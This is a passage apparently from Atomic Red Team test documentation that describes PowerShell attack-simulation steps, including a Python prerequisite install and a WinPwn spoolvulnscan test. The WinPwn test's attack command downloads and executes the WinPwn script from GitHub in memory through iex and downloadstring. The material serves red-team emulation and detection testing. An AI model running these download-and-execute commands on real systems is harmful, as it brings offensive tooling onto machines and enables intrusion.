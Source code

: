 
#### Attack Commands: Run with `powershell`! 


```powershell
python "#{filename}" -i #{host_ip}
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if python exists on the machine
##### Check Prereq Commands:
```powershell
if (Get-Command py -errorAction SilentlyContinue) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
invoke-webrequest "https://www.python.org/ftp/python/3.10.4/python-3.10.4-amd64.exe" -outfile "PathToAtomicsFolder\..\ExternalPayloads\python_setup.exe"
Start-Process -FilePath "PathToAtomicsFolder\..\ExternalPayloads\python_setup.exe" -ArgumentList "/quiet InstallAllUsers=1 PrependPath=1 Include_test=0" -Wait
```




<br/>
<br/>

## Atomic Test #5 - WinPwn - spoolvulnscan
Start MS-RPRN RPC Service Scan using spoolvulnscan function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 54574908-f1de-4356-9021-8053dd57439a






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')
spoolvulnscan -noninteractive -consoleoutput
```






<br/>
<br/>
